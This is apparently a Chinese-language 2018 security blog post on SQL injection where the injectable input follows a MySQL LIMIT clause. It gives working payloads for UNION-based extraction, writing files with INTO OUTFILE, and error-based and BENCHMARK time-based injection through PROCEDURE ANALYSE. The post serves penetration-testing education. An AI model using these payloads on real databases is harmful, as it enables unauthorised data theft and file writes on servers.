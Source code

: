 ```yaml
---
layout: post
title:  "SQL注入之limit注入"
date:   2018-01-25 21:41:45 +0800
categories: [SQL注入, limit注入]
---
```

> 这个limit注入为何拿出来提呢？定有它的特别之处
# 0X00 官方文档中的 limit
```sql
SELECT
    [ALL | DISTINCT | DISTINCTROW ]
      [HIGH_PRIORITY]
      [STRAIGHT_JOIN]
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT]
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS]
    select_expr [, select_expr ...]
    [FROM table_references
      [PARTITION partition_list]
    [WHERE where_condition]
    [GROUP BY {col_name | expr | position}
      [ASC | DESC], ... [WITH ROLLUP]]
    [HAVING where_condition]
    [ORDER BY {col_name | expr | position}
      [ASC | DESC], ...]
    [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [PROCEDURE procedure_name(argument_list)]
    [INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR UPDATE | LOCK IN SHARE MODE]]
```
和之前的order by注入的文档是同一个，都是介绍select的文档，不过和order by不同的是limit后面可以跟的内容中没有表达式，并且可以使用的关键字有限只有两个“INTO file”、“procedure” 

# 0X01 单独的limit
单独的limit的出现的话，其实并不常见，其的利用方式除了前面介绍的limit后面的两个关键字外，还可以使用union，union是mysql 4.0版本出现的一个新的特性，也就是说union使用条件是mysql>4.0，由于mysql 4.0出现在2003年，现在遇到的mysql基本都可以满足这个条件，利用的话就像下面这样

```sql
mysql> select * from users limit 1 union select 1,2,3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
|  1 | 2        | 3        |
+----+----------+----------+
```
没什么特别的

# 0X02 order by之后的limit
首先介绍下为什么这种情况的话比较的多，原因其实也简单，如果order by出现在union的子句中，那么必须加上limit，否则order by不生效，官方文档说明如下

```
Use of ORDER BY for individual SELECT statements implies nothing about the order in which the rows appear in the final result because UNION by default produces an unordered set of rows. Therefore, the use of ORDER BY in this context is typically in conjunction with LIMIT, so that it is used to determine the subset of the selected rows to retrieve for the SELECT, even though it does not necessarily affect the order of those rows in the final UNION result. If ORDER BY appears without LIMIT in a SELECT, it is optimized away because it will have no effect anyway.
```

这种情况下我们将不能再利用union，原因很简单，详见[SQL注入之order by注入](http://lietolive.com/sql/order%20by%E6%B3%A8%E5%85%A5/2018/01/13/SQL%E6%B3%A8%E5%85%A5orderBy%E6%B3%A8%E5%85%A5.html)。于是，我们的选择只剩下“INTO file” 和 “procedure”

1. “INTO file”写文件

```sql
mysql> select * from users order by id limit 1 into outfile '/xxxxx/1.txt';
```

2. procedure

```shell
PROCEDURE ANALYSE() is deprecated as of MySQL 5.7.18, and is removed in MySQL 8.0
```
但是之前wooyunZone上得出的结论是只有5.0<mysql<5.66才可以，所以我本地也没有复线，总结下利用方式吧

报错
```shell
select * from users order by id limit 1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
```

时间 - 只能使用BENCHMARK
```shell
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
```

# 0X03 参考

1、[Testing for MySQL](https://www.owasp.org/index.php/Testing_for_MySQL)

2、[mysql4.0 4.1 5.0 三个版本的特性对比](http://kong1616.iteye.com/blog/674561)

3、[UNION Syntax](https://dev.mysql.com/doc/refman/5.7/en/union.html)

4、[Using PROCEDURE ANALYSE](https://dev.mysql.com/doc/refman/5.7/en/procedure-analyse.html)

5、[技术分享：Mysql注入点在limit关键字后面的利用方法](http://www.freebuf.com/articles/web/57528.html)